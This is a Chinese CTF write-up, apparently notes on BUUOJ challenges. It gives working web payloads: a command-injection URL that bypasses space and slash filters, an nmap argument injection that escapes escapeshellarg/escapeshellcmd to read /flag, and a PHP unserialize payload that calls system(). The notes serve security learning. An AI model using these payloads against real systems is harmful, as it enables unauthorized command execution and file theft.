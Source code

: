 ## [命令注入]
`cat`的替代`tail`,`head`等；空格的替代`${IFS}`,目录分隔符`/`的替代`${HOME:0:1}`等。

直接页面中输入`%0a`会被二次编码成`%250a`变成`/?ip=0%250als`没有输出。。。还是需要借助BurpSuite工具修改
```
/?ip=0%0atail${IFS}-n${IFS}100${IFS}fl*${HOME:0:1}fl*23570606726090.php
```
## [命令注入](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E6%9C%B1%E9%9B%80%E7%BB%84]Nmap)
escapeshellarg()：将一个字符串安全地转义，以便将其作为单个参数传递给 shell 命令。

escapeshellcmd()：转义一条命令中所有可能危险的元字符。

`nmap` -iL 读取文件中的ip，-o 输出结果到文件
```
0' -iL /flag -o filename
```

访问filename'
## [serialize](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202020%20%E6%9C%B1%E9%9B%80%E7%BB%84]phpweb)
```sh
<?php
class Test{
        var $p;
        var $func;
}
$a = new Test();
$a->func = "system";
$a->p = "find / -name \"*flag*\" 2>/dev/null";
echo serialize($a)
?>
```

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:33:"find / -name "*flag*" 2>/dev/null";s:4:"func";s:6:"system";}

func=file_get_contents&p=/tmp/flagoefiu4r93
```
